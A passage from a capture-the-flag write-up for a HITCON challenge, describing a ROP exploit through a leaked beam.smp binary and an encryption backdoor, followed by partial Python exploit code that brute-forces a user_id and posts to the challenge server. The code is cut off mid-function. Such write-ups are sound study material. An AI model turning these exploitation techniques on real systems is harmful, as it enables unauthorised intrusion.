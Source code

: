 
Next, we perform ROP using the leaked beam.smp. We generate a message that will call the backdoor when encrypted, and place a hexed payload behind it to achieve ROP. Since only UTF8 can be used in plaintext, we search for a user_id that makes the plaintext UTF8 and the encryption result become backdoor.
Because the API server is being exploited and doesn't have direct stdin/stdout connections, we send the flag over the network.


```python
import requests
import re
import base64
import struct
import hashlib

BASE_URL = "http://localhost:8001"
BASE_URL = "http://gleamering.chal.hitconctf.com:30676"
AUTHORIZATION_KEY =  2099777860903446
BACKDOOR_PREFIX = b"$b4cKd0Or|"

def generate_key(user_id, post_id):
    user_mult = 0xDEADBEEF
    msg_mult = 0xCAFEBABE
    user_key = (user_id * user_mult) + (post_id * msg_mult) + (AUTHORIZATION_KEY * user_id)
    key = struct.pack('>QQ', 0, user_key)
    return hashlib.sha512(key).digest()

def search_key(post_id):
    for i in range(1, 2**20):
        k = generate_key(user_id=i, post_id=post_id)
        valid = True
        for j in range(len(BACKDOOR_PREFIX)):
            if not (0x20 <= (k[j] ^ BACKDOOR_PREFIX[j]) <= 0x7f):
                valid = False
                break
        if valid:
            return i
    return None


class Conn:
    def __init__(self):
        self.estimate_post_id= None
        pass

    def signup(self, user_id: int):
        session = requests.Session()
        url = f"{BASE_URL}/signup"
        data = {
            "user": "ellie",
            "pass": "ellie",
            "id": user_id
        }
        response = session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to signup")
        self.session = session

    def post(self, content: str) -> int:
        url = f"{BASE_URL}/posts"
        data = {
            "content": content
        }
        print(data)
```